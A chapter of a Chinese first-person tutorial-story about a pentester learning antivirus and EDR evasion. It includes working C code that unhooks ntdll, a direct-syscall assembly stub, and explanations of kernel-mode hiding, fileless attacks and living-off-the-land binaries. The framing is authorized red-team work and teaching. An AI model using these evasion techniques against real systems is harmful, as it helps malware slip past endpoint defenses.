






# 第124章 编程菜鸟到免杀大佬（下）

> **难度等级：⭐⭐⭐⭐ 硬骨头**
>
> **预计阅读时间：180分钟**
>
> **本章看点：对抗EDR实战、无文件攻击、内核免杀、护网红队逆袭、开源大佬养成记**
>
> ::: tip 说明
> 本章承接第123章的故事，继续讲小飞从"能过360"到"真正的免杀大佬"的成长历程。
> 文中提到的技术细节，后续对应章节会有更深入的讲解。
> 标注"（详见第X章）"的内容，可以翻到对应章节学习具体操作方法。
> :::

---

## 📖 本章概述

::: tip 写在前面
上一章我们讲到，小飞死磕了半年，终于做出了第一个能过360的免杀马，激动得睡不着觉。

但是，这才只是开始。

免杀这条路，远比想象的要深。

这一章，你会看到：
- 从用户态免杀到内核态免杀，要跨过多少坑
- EDR到底有多强，为什么普通免杀马在EDR面前不堪一击
- Hook检测、未挂钩、直接系统调用，这些高级技术是怎么回事
- 无文件攻击、白利用、反射型DLL注入，这些"黑科技"的原理
- 第一次参加护网红队，免杀马全军覆没的打击
- 闭关一个月，死磕EDR对抗的疯狂历程
- 自研免杀框架，能过主流杀软和EDR的成就感
- 第二次护网，免杀马全程存活，立下大功
- 从月薪3500到年薪几十万的逆袭
- 开源免杀工具，成为圈内名人
- 给后来者的真心话和建议
:::

---

## 🎯 学习目标

读完本章，你将了解：

- [x] EDR对抗的核心技术（Hook检测、未挂钩、直接系统调用）
- [x] 无文件攻击的常用手段（白利用、反射注入、.NET利用）
- [x] 内核态免杀的基本原理
- [x] 虚拟机保护与代码虚拟化
- [x] 免杀框架的设计思路
- [x] 护网红队中免杀的实战应用
- [x] 从技术爱好者到开源大佬的成长路径

---

## 🚀 初战告捷：项目中大显身手

### 1.1 第一次实战应用

第二天一早，我就冲进了公司。

老板还没来，我就坐在工位上，反复打开那个免杀马的文件夹，看了又看。

> "嘿嘿，终于成功了。
> 这下看谁还敢说我不行。"

九点多，老板来了。

我赶紧凑过去，一脸得意地说：

> "老板老板！跟你说个好消息！
> 我把免杀马做出来了！
> 能过360！火绒也能过！"

老板眼睛一亮：

> "哦？真的假的？
> 你小子可以啊，这么快就搞出来了？
> 快给我看看。"

我把U盘递过去，里面装着我那个"组合拳"版本的免杀马。

老板拿到他的测试机上试了试。

那台测试机上装了360安全卫士、360杀毒、火绒，还有Windows Defender。

扫描，没问题。

运行，没问题。

Shellcode正常执行，弹了个MessageBox出来。

老板点点头，脸上露出了笑容：

> "可以啊小飞，真有你的！
> 这才多久，就搞出来了？
> 行，以后咱们项目里的免杀马，都交给你了！
> 好好干，亏待不了你。"

我心里美滋滋的。

终于扬眉吐气了！

### 1.2 第一个正式项目

没过几天，老板就接了个内网渗透的项目。

客户是一家中型企业，要测他们内网的安全性。

老板说：

> "小飞，这次项目的免杀马就靠你了。
> 客户那边装了360企业版，还有火绒，你那个马能过吧？"

我拍着胸脯说：

> "没问题老板！
> 我那个马，360个人版、企业版都能过，火绒也没问题！
> 你就放心吧！"

话虽这么说，我心里还是有点打鼓。

毕竟之前都是在自己的虚拟机里测的，真到了实战环境，能不能行还不好说。

但箭在弦上，不得不发。

我把免杀马又优化了一下，换了个Shellcode（换成了CS的），重新加密，重新编译。

然后忐忑不安地交给了老板。

### 1.3 捷报传来

项目进行到第二天，老板兴冲冲地跑过来跟我说：

> "小飞！牛逼啊！
> 你的免杀马成了！
> 客户那边的360企业版，完全没查出来！
> 我们已经拿到好几台机器的权限了！
> 这次项目要是成了，给你发奖金！"

我当时那个激动啊，心里比吃了蜜还甜。

> "真的吗老板？
> 太好了！
> 我就知道能行！"

那一刻，我觉得这半年的熬夜、这半年的辛苦，全都值了。

那种成就感，真的无法用语言形容。

从一个连C语言都学不明白的编程小白，到现在能做出能用在实战项目里的免杀马。

这中间的酸甜苦辣，只有自己知道。

### 1.4 薪资调整

项目结束后，老板果然给我涨了工资。

从3500涨到了6000。

虽然跟那些大牛比起来还是很低，但对我来说，已经是天大的好消息了。

> "6000块！
> 翻了快一倍了！
> 我也能拿6000的工资了！"

那天晚上，我请自己吃了顿好的，还买了瓶啤酒庆祝。

一边喝一边想：

> "原来努力真的有用。
> 原来我也能靠技术吃饭。
> 以前我总觉得自己笨，什么都学不会。
> 现在看来，不是我笨，是我之前不够努力。
>
> 免杀这条路，我选对了。
> 继续加油！"

---

## 💥 当头一棒：遇到EDR

### 2.1 新的挑战

就这样过了几个月。

我做的免杀马，在各种项目里都挺好用的。

国内的主流杀软，360、火绒、腾讯电脑管家、金山毒霸，基本都能过。

我也开始有点飘飘然了。

> "哼，免杀也不过如此嘛。
> 什么360、火绒，不都被我搞定了？
> 我也算是个免杀高手了吧？"

现在想想，那时候的我真是太天真了。

免杀的水，远比我想象的要深得多。

很快，我就遇到了真正的对手。

有一次，老板接了个大项目。

客户是一家金融公司，防护做得特别好。

不仅有常规的杀软，还装了**EDR**（终端检测与响应系统）。

老板说：

> "小飞，这次的客户比较特殊，装了EDR。
> 你那个免杀马，能不能过EDR？"

我当时心里咯噔一下。

EDR？

我听说过这个东西，但从来没接触过。

我硬着头皮说：

> "应...应该可以吧？
> 我试试。"

### 2.2 什么是EDR？

说实话，那时候我对EDR一窍不通。

我只知道EDR比普通杀软厉害，但具体怎么厉害、厉害在哪，完全不知道。

于是我赶紧去百度。

不查不知道，一查吓一跳。

> 💡 **什么是EDR？**（详见第125-128章：EDR对抗技术）
> EDR（Endpoint Detection and Response，终端检测与响应），是一种比传统杀毒软件更高级的终端安全产品。
>
> 传统杀软主要靠特征码查杀、启发式查杀，偏被动防御。
> EDR则更主动，它会监控终端的各种行为，通过行为分析、威胁情报、机器学习等方式，检测和响应各种高级威胁。
>
> 简单说：
> - 传统杀软："这个文件我认识，它是病毒，我要杀了它。"
> - EDR："虽然我不认识这个文件，但它的行为很可疑，我要把它拦下来，还要分析它干了什么。"
>
> EDR通常有这些能力：
> 1. **进程监控**：监控所有进程的创建、退出、注入等行为
> 2. **文件监控**：监控文件的创建、修改、删除等
> 3. **注册表监控**：监控注册表的修改
> 4. **网络监控**：监控网络连接、流量
> 5. **行为分析**：通过行为模式识别恶意软件
> 6. **威胁狩猎**：主动寻找潜在的威胁
> 7. **溯源分析**：攻击发生后，能溯源攻击路径
> 8. **隔离/清除**：发现威胁后，能自动隔离或清除
>
> 而且，EDR通常有**内核级驱动**，能监控到内核层的操作。
> 普通用户态的免杀技巧，在EDR面前，很多都不管用了。

看完这些，我心里有点慌。

这家伙，听起来就很厉害啊。

我那点免杀技巧，能行吗？

### 2.3 第一次尝试，全军覆没

不管怎么样，先试试再说。

我把我那个"组合拳"版本的免杀马，拿到装了EDR的测试机上试了试。

结果...

**刚一上传，就被EDR检测到了。**

不是静态查杀，是行为检测。

我那个马，一运行，刚分配完内存，还没等执行Shellcode呢，EDR就报警了。

然后直接把进程杀了，还把文件给隔离了。

我当时就懵了。

> "什么情况？
> 这也太快了吧？
> 我静态免杀做得好好的，怎么一运行就被抓了？"

我又试了几个不同的版本。

有的是静态就被杀了。

有的是运行了几秒就被杀了。

有的甚至刚双击，还没来得及有任何动作，就被杀了。

**无一幸免，全军覆没。**

我看着测试机上EDR的告警记录，心里凉了半截。

> "这...这也太强了吧？
> 我研究了半年的免杀，在它面前就像纸糊的一样？
> 这EDR到底是怎么做到的？"

### 2.4 客户的吐槽

项目结果可想而知。

因为免杀马过不去，项目进展非常缓慢。

最后虽然也完成了，但效果很不好。

客户那边的反馈也很差。

> "你们这水平不行啊。
> 连我们的EDR都绕不过去。
> 我们这还是用的入门级EDR，要是用更高级的，你们是不是更不行？
> 下次能不能专业点？"

这些话，又是当着老板的面说的。

虽然老板没说什么，但我从他的眼神里看到了失望。

那一刻，我又想起了刚入职时的那种挫败感。

那种羞愧、那种无力、那种觉得自己什么都不是的感觉。

> "我...我怎么这么没用？
> 还以为自己挺厉害的，原来只是井底之蛙。
> 过了个360就飘了，真遇到硬茬了，什么都不是。"

那天晚上，我又失眠了。

不是因为激动，是因为沮丧。

---

## 🔍 深入研究：EDR对抗

### 3.1 知耻而后勇

沮丧归沮丧，日子还得过，技术还得学。

我这个人就是这样，越是遇到困难，越不服输。

> "EDR是吧？
> 很厉害是吧？
> 我就不信了，别人能搞定，我为什么搞不定？
> 不就是EDR吗？我死磕到底！"

于是，我又开始了新一轮的学习。

这次的目标：**对抗EDR**。

我先搞清楚一个问题：EDR到底是怎么检测我的？

我的免杀马，静态免杀做得好好的，为什么一运行就被抓？

我得搞明白原理，才能针对性地绕过。

### 3.2 EDR的检测原理

研究了一段时间，我终于大概搞明白了EDR的检测原理。

简单说，EDR主要从这几个层面检测：

**图124-1 EDR检测原理分层图**



看完这张图，我才明白。

原来EDR是多层防御体系。

我之前的免杀，只搞定了最上面的"静态检测层"。

下面还有好几层呢！

特别是"内核态监控层"，这个我之前完全没接触过。

难怪我的免杀马一跑就被抓。

人家从内核层盯着你呢，你在用户态再怎么折腾，人家都看得清清楚楚。

### 3.3 EDR是怎么Hook的？

我发现，EDR在用户态的行为检测，主要靠的是**Hook API**。

什么是Hook？

就是把正常的API函数给"篡改"了。

你调用这个API的时候，实际上先跑到EDR的代码里去了。

EDR检查一下你调用这个API干什么，有没有问题。

没问题的话，再调用真正的API。

有问题的话，直接给你拦下来。

> 💡 **什么是API Hook？**（详见第125章：EDR Hook技术详解）
> API Hook（API钩子），就是修改API函数的执行流程，让函数调用先经过我们自己的代码，然后再执行原来的代码。
>
> 举个例子：
> - 正常情况：程序调用 VirtualAlloc → 执行VirtualAlloc的代码 → 返回结果
> - Hook之后：程序调用 VirtualAlloc → 跳到EDR的检查代码 → EDR检查通过 → 执行真正的VirtualAlloc → 返回结果
>
> EDR常用的Hook方式有几种：
> 1. **Inline Hook**：直接修改API函数的开头几个字节，改成跳转到Hook函数
> 2. **IAT Hook**：修改导入地址表（IAT），把函数地址改成Hook函数的地址
> 3. **EAT Hook**：修改导出地址表（EAT），比较少见
>
> 其中Inline Hook最常用，也最有效。

**图124-2 Inline Hook原理示意图**

```mermaid
flowchart LR
    subgraph 正常调用
        A[程序调用VirtualAlloc] --> B[VirtualAlloc函数开头<br/>push ebp<br/>mov ebp, esp<br/>...]
        B --> C[函数正常执行]
        B --> D[返回结果]
    end

    subgraph Hook之后
        E[程序调用VirtualAlloc] --> F[VirtualAlloc函数开头<br/>jmp 0xXXXXXXXX<br/>(跳到Hook函数)]
        F --> G[EDR的Hook函数<br/>检查调用参数<br/>检查调用来源<br/>检查行为模式]
        G -->|可疑| H[直接拦截 / 记录日志]
        G -->|正常| I[执行被覆盖的原始指令]
        I --> J[跳回原函数继续执行]
        J --> K[返回结果]
    end

    style F fill:#FFB6C1
    style G fill:#90EE90
```

搞明白了原理，我就知道该怎么对抗了。

既然EDRHook了API，那我就想办法绕过这些Hook呗。

怎么绕过呢？

大概有这么几种思路：

1. **未挂钩（Unhook）**：把EDR的Hook去掉，恢复API的原始状态
2. **直接系统调用（Direct Syscall）**：不调用用户态的API，直接调用内核的系统调用
3. **间接系统调用（Indirect Syscall）**：通过其他方式调用系统调用，更隐蔽
4. **自己实现API**：不调用系统的API，自己实现相同的功能
5. **躲避Hook检测**：用一些特殊的方式调用API，让Hook检测不到

这些技术，听起来就很高端。

没关系，一个一个学。

### 3.4 未挂钩（Unhook）

最先学的，肯定是最简单的。

未挂钩，就是把EDR的Hook去掉，让API恢复正常。

原理很简单：

EDR在API开头写了个跳转，那我把开头的字节改回去不就行了？

怎么改回去呢？

有几种方法：

1. **从磁盘重新读取DLL**：把ntdll.dll、kernel32.dll这些从磁盘上读出来，然后把.text节拷贝到内存里，覆盖掉被Hook的部分
2. **从已知干净的DLL拷贝**：如果有其他进程的DLL是干净的，可以读出来覆盖
3. **手动修复**：知道原始字节是什么，手动改回去

我试了第一种方法，从磁盘重新读取ntdll.dll，然后覆盖内存中的代码段。

**简单的Unhook示例：**

```c
#include <stdio.h>
#include <windows.h>

// 从磁盘读取DLL，修复内存中的.text节（Unhook）
BOOL UnhookFromDisk(const char* dllName)
{
    // 1. 获取当前进程中DLL的基址
    HMODULE hModule = GetModuleHandleA(dllName);
    if (hModule == NULL) {
        printf("GetModuleHandle failed: %d\n", GetLastError());
        return FALSE;
    }

    // 2. 读取DLL文件
    char dllPath[MAX_PATH] = {0};
    GetSystemDirectoryA(dllPath, MAX_PATH);
    strcat_s(dllPath, MAX_PATH, "\\");
    strcat_s(dllPath, MAX_PATH, dllName);

    HANDLE hFile = CreateFileA(dllPath, GENERIC_READ, FILE_SHARE_READ, 
        NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        printf("CreateFile failed: %d\n", GetLastError());
        return FALSE;
    }

    DWORD dwFileSize = GetFileSize(hFile, NULL);
    LPVOID pFileBuffer = VirtualAlloc(NULL, dwFileSize, 
        MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pFileBuffer == NULL) {
        printf("VirtualAlloc failed: %d\n", GetLastError());
        CloseHandle(hFile);
        return FALSE;
    }

    DWORD dwRead;
    ReadFile(hFile, pFileBuffer, dwFileSize, &dwRead, NULL);
    CloseHandle(hFile);

    // 3. 解析PE，找到.text节
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pFileBuffer;
    PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)(
        (DWORD)pFileBuffer + pDosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pNtHeader);

    LPVOID pTextSectionFile = NULL;
    DWORD dwTextSizeFile = 0;
    LPVOID pTextSectionMem = NULL;
    DWORD dwTextSizeMem = 0;

    for (int i = 0; i < pNtHeader->FileHeader.NumberOfSections; i++) {
        char sectionName[9] = {0};
        memcpy(sectionName, pSectionHeader[i].Name, 8);
        if (strcmp(sectionName, ".text") == 0) {
            pTextSectionFile = (LPVOID)((DWORD)pFileBuffer + 
                pSectionHeader[i].PointerToRawData);
            dwTextSizeFile = pSectionHeader[i].SizeOfRawData;
            pTextSectionMem = (LPVOID)((DWORD)hModule + 
                pSectionHeader[i].VirtualAddress);
            dwTextSizeMem = pSectionHeader[i].Misc.VirtualSize;
            break;
        }
    }

    if (pTextSectionFile == NULL || pTextSectionMem == NULL) {
        printf("Could not find .text section\n");
        VirtualFree(pFileBuffer, 0, MEM_RELEASE);
        return FALSE;
    }

    // 4. 修改内存保护，然后覆盖.text节
    DWORD dwOldProtect;
    VirtualProtect(pTextSectionMem, dwTextSizeMem, 
        PAGE_EXECUTE_READWRITE, &dwOldProtect);
    
    memcpy(pTextSectionMem, pTextSectionFile, dwTextSizeFile);

    // 5. 恢复内存保护
    VirtualProtect(pTextSectionMem, dwTextSizeMem, 
        dwOldProtect, &dwOldProtect);

    // 6. 清理
    VirtualFree(pFileBuffer, 0, MEM_RELEASE);

    printf("Unhook %s success!\n", dllName);
    return TRUE;
}

int main()
{
    printf("Trying to unhook ntdll.dll...\n");
    
    if (UnhookFromDisk("ntdll.dll")) {
        printf("Unhook successful!\n");
    } else {
        printf("Unhook failed!\n");
    }

    // 后面再调用VirtualAlloc这些API，就不会被Hook了
    // ...

    return 0;
}
```

你别说，这方法还真管用。

对某些EDR，Unhook之后，再调用API就不会被检测了。

但是！

不是所有EDR都吃这一套。

有些EDR的Hook在内核层，你在用户态Unhook根本没用。

而且，有些EDR会检测Unhook行为。

你一Unhook，它马上就知道了，直接把你进程杀了。

所以Unhook这招，只能对付一些比较菜的EDR。

遇到厉害的，还是不行。

### 3.5 直接系统调用（Direct Syscall）

Unhook不够稳，那我就学更高级的：**直接系统调用**。

什么意思呢？

就是说，我不调用你用户态的API了。

你不是Hook了VirtualAlloc、VirtualProtect这些吗？

行，我不用了。

我直接调用内核的系统调用。

这样总行了吧？

> 💡 **什么是系统调用（Syscall）？**（详见第126章：直接系统调用技术）
> 在Windows中，用户态的API（比如VirtualAlloc、CreateFile这些），最终都会调用ntdll.dll里的Native API。
> Native API再通过syscall指令（或者int 2e），进入内核态，调用内核里的对应函数。
>
> 调用链大概是这样的：
> Kernel32!VirtualAlloc → Ntdll!NtAllocateVirtualMemory → syscall → 内核!NtAllocateVirtualMemory
>
> EDR一般只会Hook用户态的API（Kernel32、Ntdll里的函数）。
> 如果我们直接调用syscall，绕过Ntdll里的函数，那EDR的Hook就失效了。
>
> 当然，前提是EDR没有在内核层做监控。如果内核层也有监控，那直接syscall也会被检测到。
>
> 但不管怎么说，直接syscall能绕过用户态的Hook，已经前进了一大步。

**系统调用原理示意图：**

```mermaid
flowchart TD
    A[正常调用路径] --> B[kernel32!VirtualAlloc]
    B --> C[ntdll!NtAllocateVirtualMemory<br/>(被EDR Hook)]
    C --> D[syscall 进入内核]
    D --> E[内核函数执行]

    F[直接系统调用路径] --> G[我们自己的代码<br/>直接设置参数]
    G --> H[直接执行syscall<br/>绕过ntdll的Hook]
    H --> I[内核函数执行]

    style C fill:#FFB6C1
    style H fill:#90EE90
```

直接系统调用的原理是这样的：

每个系统调用都有一个编号（SSN，System Service Number）。

我们需要做的就是：
1. 把参数按规定放到对应的寄存器里
2. 把系统调用号放到eax里
3. 执行syscall指令（x64）或者int 2e（x86）

这样就能直接进入内核，绕过用户态的所有Hook。

听起来很简单，但实际做起来还挺麻烦的。

首先，你得知道每个系统调用的编号。

而且，不同Windows版本的系统调用号还不一样。

Windows 10 1903的NtAllocateVirtualMemory的编号，跟Windows 10 2004的可能就不一样。

所以你得想办法动态获取系统调用号。

不过没关系，有工具可以帮我们生成syscall的代码。

比如**SysWhispers**这个工具，可以直接生成C语言的syscall代码。

**直接系统调用示例（x64）：**

```asm
; 直接系统调用示例 - NtAllocateVirtualMemory
; 注意：不同Windows版本的SSN不一样，这里只是示例

.code

NtAllocateVirtualMemory proc
    mov r10, rcx
    mov eax, 18h          ; SSN，Windows 10 1903下是0x18
    syscall
    ret
NtAllocateVirtualMemory endp

end
```

对应的C语言调用：

```c
#include <stdio.h>
#include <windows.h>

// 函数声明
extern NTSTATUS NtAllocateVirtualMemory(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
);

int main()
{
    PVOID lpAddress = NULL;
    SIZE_T dwSize = 0x1000;
    
    // 直接调用syscall，绕过用户态Hook
    NTSTATUS status = NtAllocateVirtualMemory(
        GetCurrentProcess(),
        &lpAddress,
        0,
        &dwSize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE
    );
    
    if (status == 0) {
        printf("Allocation success: %p\n", lpAddress);
    } else {
        printf("Allocation failed: 0x%X\n", status);
    }
    
    return 0;
}
```

用了直接系统调用之后，效果确实好了很多。

很多EDR的用户态Hook都被绕过了。

但是！

还是有一些EDR能检测到。

为什么呢？

因为人家有内核层的监控啊！

你就算绕过了用户态的Hook，内核层还有回调函数、还有过滤驱动呢。

而且，有些EDR会检查系统调用的来源。

正常的系统调用，都是从ntdll.dll里发起的。

你这个系统调用，是从你的exe里发起的，这本身就很可疑。

所以直接系统调用也不是万能的。

还有更高级的技术，比如**间接系统调用**（Indirect Syscall）。

就是说，我不是直接在我的代码里执行syscall指令。

我跳到ntdll.dll里的某个syscall指令那里去执行。

这样，系统调用的返回地址就在ntdll.dll里，看起来更正常。

这个更隐蔽，也更难检测。

当然，实现起来也更复杂。

### 3.6 内核态免杀

研究到这里，我发现一个问题：

不管是Unhook还是直接系统调用，都是在**用户态**折腾。

如果EDR有内核层的监控，那这些方法效果都有限。

那能不能直接从**内核态**入手呢？

比如，写个驱动，在内核里做免杀？

想到这里，我又兴奋了。

内核态，想想就很高端。

但是一深入了解，我就发现，内核态免杀的水太深了。

> 💡 **内核态免杀是什么？**（详见第130-132章：内核免杀技术）
> 内核态免杀，就是通过内核驱动（.sys文件）来实现免杀和对抗EDR。
>
> 因为驱动运行在内核层，权限很高，可以干很多用户态干不了的事情：
> 1. **内核级的进程隐藏**：把进程从系统里藏起来，EDR找不到
> 2. **内核级的模块隐藏**：把DLL从PEB里摘出去，让EDR看不到
> 3. **内核级的Hook绕过**：在内核层绕过EDR的过滤驱动
> 4. **直接修改内核数据结构**：比如修改EPROCESS，隐藏进程
> 5. **DKOM（直接内核对象操作）**：直接操作内核对象来隐藏
>
> 但是！内核态免杀有几个大问题：
> 1. **驱动需要签名**：64位Windows有驱动强制签名（DSE），没有微软签名的驱动加载不了
> 2. **风险很高**：内核代码一出错，直接蓝屏（BSOD）
> 3. **开发难度大**：内核编程比用户态难得多
> 4. **容易被检测**：加载未签名驱动本身就是高风险行为
>
> 所以内核态免杀虽然厉害，但门槛很高，风险也大。
> 一般只有高级的APT组织才会用。

我那时候的水平，内核态肯定是搞不定的。

连C语言都才刚入门，内核编程就更别提了。

而且驱动签名这个事，就很难搞定。

除非用漏洞来绕过DSE，但那又是另一个领域了。

所以内核态免杀，我就先了解了一下原理，没有深入研究。

还是先把用户态的东西搞明白再说吧。

---

## 📁 无文件攻击与白利用

### 4.1 另一个思路：无文件攻击

研究EDR对抗的同时，我也在研究另一个方向：**无文件攻击**。

什么是无文件攻击？

就是说，整个攻击过程，不在磁盘上留下任何文件。

所有东西都在内存里。

这样的话，杀软和EDR连扫描的对象都没有，自然也就查不到了。

> 💡 **什么是无文件攻击？**（详见第110-112章：无文件攻击技术）
> 无文件攻击（Fileless Attack），是一种不向磁盘写入恶意文件的攻击方式。
> 所有恶意代码都在内存中执行，或者利用系统自带的合法工具来执行。
>
> 无文件攻击的优势：
> 1. **不留痕迹**：磁盘上没有恶意文件，事后很难取证
> 2. **难以检测**：传统的基于文件的杀毒软件基本没用
> 3. **存活率高**：就算重启了，也可以通过注册表、WMI等方式持久化
>
> 常见的无文件攻击手段：
> 1. **白利用（Living-off-the-Land）**：用系统自带的工具执行恶意代码
> 2. **PowerShell攻击**：用PowerShell执行恶意代码，不用落地文件
> 3. **WMI攻击**：通过WMI执行命令、持久化
> 4. **注册表注入**：把Shellcode存在注册表里，需要的时候读出来执行
> 5. **反射型DLL注入**：把DLL直接注入到内存里，不用写到磁盘上
> 6. **进程空洞化（Process Hollowing）**：创建挂起的进程，替换内存中的代码
>
> 无文件攻击是现在红队的主流技术，也是EDR重点检测的对象。

这个思路好啊！

既然我的免杀马容易被检测，那我不用文件不就行了？

直接在内存里搞。

### 4.2 白利用（Living-off-the-Land）

最先学的，是**白利用**。

什么是白利用？

就是用系统自带的、有微软签名的、正常的工具，来干"坏事"。

这些工具都是合法的，杀软和EDR不会怀疑它们。

但是它们功能很强，能被用来执行恶意代码。

> 💡 **什么是白利用？**
> 白利用（Living-off-the-Land，简称LotL），字面意思是"靠土地生活"，在这里的意思就是"靠系统自带的工具生活"。
>
> 简单说就是：用系统自带的合法工具，来执行恶意操作。
>
> 因为这些工具是系统自带的，有数字签名，所以杀软和EDR通常不会把它们当成病毒。
> 但是它们的功能又很强大，能被用来做很多事。
>
> 常见的白利用工具有：
> - mshta.exe：执行HTA文件，可以跑VBScript、JScript
> - rundll32.exe：执行DLL里的函数
> - regsvr32.exe：注册COM组件，可以执行DLL
> - certutil.exe：下载文件、编码解码
> - bitsadmin.exe：后台下载文件
> - powershell.exe：这个就不用说了，功能太强大
